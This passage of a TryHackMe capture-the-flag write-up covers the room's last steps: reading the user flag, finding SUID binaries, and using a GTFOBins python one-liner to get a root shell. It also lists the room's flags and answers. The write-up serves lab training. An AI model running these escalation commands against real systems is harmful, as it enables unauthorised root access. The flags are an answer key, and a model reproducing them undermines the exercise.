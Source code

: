 {{< image src="../flag1.png" alt="home page" position="center" style="border-radius: 8px;" >}}

Run:\
command:`cd var/www`\
command:`ls`\
command:`cat user.txt`

We got our first flag.\
Flag:`THM{y0u_g0t_a_sh3ll}`


# # Task 4 Privilege escalation 

# Privilege Escalation

Now that we have a shell, let's escalate our privileges to root.\
From hint run the following command to search a file with SUID permission and we got the file with the name python.\
command:`find / -user root -perm /4000`

We have a shell but it is not stable. From hint do some research on GTFOBins, Google it. Search for python in gtfobins go the SUID section we got the command.

{{< image src="../gtfobin.png" alt="home page" position="center" style="border-radius: 8px;" >}}


command:`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`\
command:`cd root`\
command:`ls`\
command:`cat root.txt`

By running the above command we get the root access or a stable shell now try to access `root.txt` file.
we got our 2nd flag....
flag:`THM{pr1v1l3g3_3sc4l4t10n}`

# QnA:
1. Search for files with SUID permission, which file is weird?\
`ans: /usr/bin/python`

2. Find a form to escalate your privileges.\
`ans: no answer needed`

3. root.txt\
`ans: THM{pr1v1l3g3_3sc4l4t10n}`


# Congrats, we have successfully completed the room, hope you learnt something new...

Thanks for the reading...
